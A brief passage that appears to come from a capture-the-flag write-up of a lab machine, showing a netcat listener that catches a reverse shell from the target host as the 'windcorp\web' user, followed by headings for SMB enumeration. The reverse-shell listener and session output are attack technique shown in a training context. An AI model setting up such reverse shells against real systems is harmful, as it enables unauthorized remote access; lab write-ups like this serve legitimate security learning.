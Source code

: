 ![](/img/image-20221109122318968.png)

On pushing "Connect Back Shell", I get a shell at `nc`:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 9999
    Listening on 0.0.0.0 9999
    Connection received on 10.10.11.147 50060
    Shell enroute.......
    Microsoft Windows [Version 10.0.20348.643]
    (c) Microsoft Corporation. All rights reserved.

    c:\windows\system32\inetsrv>whoami
    windcorp\web



## SMB as BeatriceMill

### Enumeration

#### Home Directories
